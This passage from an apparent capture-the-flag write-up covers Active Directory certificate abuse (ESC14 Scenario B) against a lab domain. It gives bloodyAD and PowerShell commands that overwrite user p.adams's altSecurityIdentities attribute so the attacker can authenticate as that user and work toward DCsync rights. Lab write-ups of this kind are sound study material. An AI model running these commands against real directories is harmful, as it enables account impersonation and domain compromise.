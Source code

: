 Many options and settings influence the possibility of explicit certificate mapping but we have 3 weak maping techniques besides X509SKI so we can try any of them 

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/0*7793WrnrVAZlMV9f)

---

#### **Our Attack Scenario: Targeting p.adams for DCsync**

Our target is **`p.adams`** this user is our path to gaining **DCsync** rights on the domain as identified before. We have **WRITE access** to their **`altSecurityIdentities`** attribute.

**Attack Flow:**
We will abuse this access to assign **our own certificate mapping** to `p.adams`. Once mapped, we authenticate as `p.adams` and leverage their privileges.

```plaintext
[Write Access]
        │
        ├── altSecurityIdentities  (Direct Mapping)
        ├── mail                   (RFC822 Email Mapping)
        └── cn / dNSHostName       (Subject / DNS Mapping)
        │
        └─▶ Enroll Attacker Certificate
                │
                └─▶ Authenticate w/ Certificate (PKINIT / Schannel)
                        │
                        └─▶ Full Compromise of Target Principal
```

#### ESC14 Scenario B easiest 


1. Enumerate the Existing altSecurityIdentities Attribute
    ```powershell
    Get-ADUser p.adams -Properties altSecurityIdentities | Select-Object Name, altSecurityIdentities
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*uVrHGaK1uT_qXuJfcBum3w.png)
2. modify `p.adams`'s `altSecurityIdentities` attribute
    + Using BloodyAD
        ```bash
        bloodyAD --host dc01.scepter.htb -d scepter.htb -u h.brown -k set object p.adams altSecurityIdentities -v "X509:<RFC822>h.brown@scepter.htb"
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*NCo8cOzMpr869BMGQUy-zQ.png)
    + Using PowerShell (via ADSI)
        ```powershell
        $victim = [ADSI]"LDAP://CN=P.ADAMS,OU=HELPDESK ENROLLMENT CERTIFICATE,DC=SCEPTER,DC=HTB"
        $victim.Put("altSecurityIdentities", "X509:<RFC822>h.brown@scepter.htb")
        $victim.SetInfo()
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*u_iiFHhH7vs-C4Dc3Krs3w.png)
    + Using PowerShell (via Set-ADUser)
        ```
        $ASI = (Get-ADUser h.brown -Properties altSecurityIdentities).altSecurityIdentities
        Set-ADUser p.adams -Replace @{altSecurityIdentities = $ASI[0]}
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*O8Twwrlc59cxK0CZz-f09g.png)
3. Confirm change 
    Verify the altSecurityIdentities attribute was updated as expected.
